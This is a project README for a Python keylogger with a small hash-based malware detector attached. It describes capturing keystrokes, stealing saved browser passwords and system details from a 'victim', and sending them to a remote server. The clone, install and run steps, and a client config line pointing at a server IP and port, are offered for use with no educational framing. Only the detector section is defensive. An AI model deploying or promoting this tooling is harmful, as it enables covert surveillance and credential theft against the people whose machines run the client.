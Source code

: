 # Keylogger Project And Simple Malware Detector

This project implements a simple keylogger that captures keystrokes from a client machine and sends them to a server for logging purposes. It also includes features to gather browser data and system information.

## Features

- **Keylogging:** Captures all keystrokes made on the client machine.
- **Network Communication:** Sends captured keystrokes over the network to a remote server.
- **Logging:** Logs keystrokes into a text file on the server.
- **Browser Data Theft:** Gathers saved passwords from browsers like Chrome, Edge, and Firefox.
- **System Information Gathering:** Collects host name, IP addresses, OS details, processor info, disk usage, and memory statistics.

### Malware Detector

The malware detector script analyzes files extracted from a specified archive. It calculates cryptographic hashes of files using various hashing algorithms (MD5, SHA-1, SHA-224, SHA-256, SHA3-384, SHA3-512) and compares them against a list of known malicious hashes. If a match is found, it identifies the file as potentially malicious.

## Requirements

- Python 3.x
- `pynput` library (for capturing keystrokes)
- Basic understanding of network sockets
  - `pathlib`: For handling file paths and directories.
  - `shutil`: For unpacking archives.
  - `rarfile` (optional): For handling RAR archives.
  - `hashlib`: For calculating file hashes using various algorithms.

## Installation and Setup

1. **Clone the repository:**

    ```bash
    git clone https://github.com/Oxshady/catcher--_-.git
    cd keylogger
    ```

2. **Install dependencies:**

    ```bash
    pip install pynput
    ```

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python client.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput` and `socket` libraries for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`client.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.
